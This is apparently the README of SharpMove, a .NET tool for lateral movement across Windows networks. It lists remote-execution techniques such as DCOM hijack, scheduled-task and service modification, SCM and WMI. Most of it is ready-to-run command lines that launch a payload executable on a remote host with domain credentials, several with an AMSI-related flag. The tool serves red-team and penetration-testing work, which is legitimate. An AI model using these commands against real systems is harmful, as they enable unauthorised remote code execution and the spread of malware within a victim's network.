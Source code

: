
         * DCOM (Multiple)
  * DCOM Server Hijack
  * Modify Scheduled Task
  * Modify Service binpath
  * SCM
  * Service DLL Hijack
  * Task Scheduler
  * WMI
### SharpMove - .NET authenticated execution for remote hosts
#### Building
#### Options
Part of [MoveKit](https://github.com/0xthirteen/MoveKit)
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
SharpMove.exe action=dcom computername=remote.host.local command="C:\windows\temp\payload.exe\" method=ShellBrowserWindow amsi=true
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
SharpMove.exe action=hijackdcom computername=remote.host.local clsid={40bdc4e5-d532-42e6-b667-1ab890fdebcf}
SharpMove.exe action=modschtask computername=remote.host.local command="C:\windows\temp\payload.exe" username=domain\user password=password taskname=TestTask
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
SharpMove.exe action=taskscheduler computername=remote.host.local command="C:\windows\temp\payload.exe" taskname=Debug amsi=true username=domain\\user password=password
To compile open Visual Studio project and compile for release.
```
